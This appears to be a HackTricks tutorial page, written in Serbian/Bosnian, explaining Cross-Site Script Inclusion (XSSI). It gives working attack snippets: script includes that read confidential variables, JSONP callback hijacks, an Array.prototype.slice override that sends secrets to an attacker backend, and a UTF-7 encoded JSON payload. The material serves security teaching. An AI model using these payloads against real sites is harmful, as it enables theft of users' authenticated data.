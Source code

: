 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** je ranjivost koja proističe iz prirode `script` taga u HTML-u. Za razliku od većine resursa, koji podliježu **Same-Origin Policy (SOP)**, skripte se mogu uključivati iz različitih domena. Ovo ponašanje je zamišljeno da olakša korišćenje biblioteka i drugih resursa hostovanih na različitim serverima, ali takođe uvodi potencijalni sigurnosni rizik.

### Key Characteristics of **XSSI**:
- **Zaobilaženje SOP**: Skripte su izuzete iz **Same-Origin Policy**, što im omogućava da se uključuju između domena.
- **Izloženost podataka**: Napadač može iskoristiti ovo ponašanje da pročita podatke učitane putem `script` taga.
- **Uticaj na dinamički JavaScript/JSONP**: **XSSI** je posebno relevantan za dinamički JavaScript ili **JSON with Padding (JSONP)**. Ove tehnologije često koriste informacije "ambient-authority" (kao što su kolačići) za autentifikaciju. Kada se zahteva skripta sa drugog hosta, ove akreditive (npr. kolačiće) automatski uključuju u zahtev.
- **Curjenje autentifikacionih tokena**: Ako napadač može da prevari korisnikov pretraživač da zatraži skriptu sa servera koji kontroliše, može imati pristup osetljivim informacijama sadržanim u tim zahtevima.

### Types

1. **Static JavaScript** - Ovo predstavlja konvencionalni oblik XSSI.
2. **Static JavaScript with Authentication** - Ova vrsta je posebna jer zahteva autentifikaciju za pristup.
3. **Dynamic JavaScript** - Uključuje JavaScript koji dinamički generiše sadržaj.
4. **Non-JavaScript** - Odnosi se na ranjivosti koje ne uključuju JavaScript direktno.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
U ovom pristupu, privatne informacije su ugrađene unutar globalno dostupne JavaScript datoteke. Napadači mogu identifikovati ove datoteke koristeći metode kao što su čitanje datoteka, pretrage ključnih reči ili regularne izraze. Kada se lociraju, skripta koja sadrži privatne informacije može se uključiti u zlonamerni sadržaj, omogućavajući neovlašćen pristup osetljivim podacima. Primer tehnike eksploatacije je prikazan u nastavku:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Ove vrste XSSI napada uključuju poverljive informacije koje se dinamički dodaju u skriptu kao odgovor na korisnikov zahtev. Detekcija se može izvršiti slanjem zahteva sa i bez kolačića i upoređivanjem odgovora. Ako se informacije razlikuju, to može ukazivati na prisustvo poverljivih informacija. Ovaj proces se može automatizovati korišćenjem alata kao što je [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp ekstenzija.

Ako su poverljivi podaci pohranjeni u globalnoj promenljivoj, mogu se iskoristiti slične metode kao u Regular XSSI. Međutim, ako su poverljivi podaci uključeni u JSONP odgovor, napadači mogu preuzeti funkciju povratnog poziva kako bi dobili informacije. To se može uraditi ili manipulisanjem globalnim objektima ili postavljanjem funkcije koja će biti izvršena od strane JSONP odgovora, kao što je prikazano u nastavku:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Za promenljive koje se ne nalaze u globalnom imenskom prostoru, *prototype tampering* se ponekad može iskoristiti. Ova tehnika koristi dizajn JavaScript-a, gde interpretacija koda uključuje prolazak kroz prototip lanac da bi se locirala pozvana svojstva. Predefinisanjem određenih funkcija, kao što je `Array`-ova `slice`, napadači mogu pristupiti i otkriti ne-globalne promenljive:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Dalje informacije o napadnim vektorima mogu se naći u radu istraživača bezbednosti [Sebastian Lekies](https://twitter.com/slekies), koji održava listu [vektora](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Istraživanje Takeshija Terade uvodi još jedan oblik XSSI, gde se Non-Script datoteke, kao što su CSV, otkrivaju preko različitih domena tako što se uključuju kao izvori u `script` tag. Istorijski primeri XSSI, kao što su napad Jeremiah Grossmana iz 2006. godine za čitanje kompletnog Google adresara i curenje JSON podataka Joea Walkera iz 2007. godine, ističu ozbiljnost ovih pretnji. Pored toga, Gareth Heyes opisuje varijantu napada koja uključuje UTF-7 kodirani JSON kako bi se izbegao JSON format i izvršili skripti, što je efikasno u određenim pregledačima:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
